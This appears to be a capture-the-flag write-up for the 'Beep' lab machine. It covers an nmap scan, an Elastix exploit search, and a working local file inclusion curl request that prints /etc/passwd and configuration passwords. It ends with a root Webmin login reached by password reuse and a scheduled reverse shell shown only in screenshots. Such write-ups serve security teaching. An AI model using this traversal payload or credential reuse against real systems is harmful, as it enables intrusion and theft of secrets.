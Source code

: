 # Beep

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.1.226 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 22:53 EDT
Nmap scan report for 10.129.1.226
Host is up (0.0079s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
941/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

Lots of ports open. We can start with the HTTP ports.

### Elastix

Port 443 has an Elastix instance:

<figure><img src="../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

Elastix has a ton of exploits:

```
$ searchsploit elastix          
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                      | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities    | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilit | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion           | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                          | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                         | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution     | php/webapps/18650.py
```

Using the LFI exploit, we can confirm that it works by viewing `/etc/passwd`.&#x20;

```
$ curl -k 'https://10.129.1.226/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action' 
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
```

The exploit loads `/etc/amportal.conf` by default, and when viewed, we can find a few passwords:

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

We'll keep this for now.

### Webmin

Using `jEhdIekWmdjE`, we can login as `root` on Webmin on port 10000.&#x20;

<figure><img src="../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

With access to Webmin, we actually already have full control over the machine. As such, we can create a scheduled command that would give us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

We would then catch a reverse shell after waiting a minute.&#x20;

<figure><img src="../../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

Rooted!
